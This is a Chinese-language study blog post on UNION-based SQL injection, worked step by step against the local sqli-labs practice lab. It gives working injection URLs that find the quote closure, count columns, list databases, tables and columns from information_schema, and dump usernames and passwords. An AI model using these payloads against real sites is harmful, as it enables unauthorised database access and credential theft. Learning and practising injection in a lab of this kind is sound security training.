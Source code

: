 ```yaml
---
title: sql注入练习
date: 2020-03-03 15:04:05
tags: SQL注入
categories: 技术
photos: https://cdn.jsdelivr.net/gh/yremp/cdn@2.1.5/img/cover/(7).jpg.webp
---
```




最近学习sql注入里最简单的一种——**联合查询注入**。
现在写下来理清思路，也分享分享自己的收获。

联合查询的前提条件：**页面上有显示位**。

什么是显示位？
在一个在一个网站的正常页面，服务端执行SQL语句查询数据库中的数据，客户端将数 据展示在页面中，这个展示数据的位置就叫显示位。
联合查询的过程：
1、判断注入点
2、判断列数
3、获取所有数据库名
4、获取数据库所有表名
5、获取字段名
6、获取字段中的数据

首先，SQL注入变量的后边添加输入id=1或id=2，回显页面不同。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302112044109.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
一，判断闭合符号。
常见的有:" , ' ,')  ,")  ,或者没有闭合符合（最危险）
首先在url框里输入id=1",回显正常。这就说明这不是闭合符号，我们再换一个。
输入id=1',出现了报错，这就说明  '  是闭合符号。![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302113224263.png)
  二，判断列数
  在order by 后面1 ，2 ，3，......直到报错。


> http://localhost/sqli-labs-master/Less-1/?id=1' order by 4--+

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302114058717.png)
这就知道了总共有3列。

> http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,2,3--+


我们将id=0(数据库中不存在的数)，这样会回显我们输入的数。![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302115651793.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
2,3的位置就是我们输入的。
三，获取所有数据库名。

> http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,database(),3--+

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302120529852.png)
这样数据库就出来了。
四，获取数据库里所有表名。
下面所需的名称及解释就直接用学长的了。

> 在此之前，我们要知道在MySQL中有information_schema这个库，该库存放了所有数据库的信息。
information_schema.columns包含所有表的字段
table_schema 数据库名
table_name 表名
column_name 列名
information_schema.tables包含所有库的表名
table_schema 数据库名
table_name 表名
information_schema.schemata包含所有数据库的名
schema_name 数据库名
group_concat()函数功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
————————————————
版权声明：本文为CSDN博主「~Lemon」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/qq_43431158/article/details/90743320

下面直接获取数据表名。

```cpp
http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302123834782.png)

五，获取字段名。

```cpp
http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302124813636.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
六，获取字段中的数值。

```cpp
http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,group_concat(username,0x3a,password),3 from users --+
```
注意：0x3a是区分用户名和密码的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302125431134.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
用户名和密码都知道了，剩下的自己想吧。
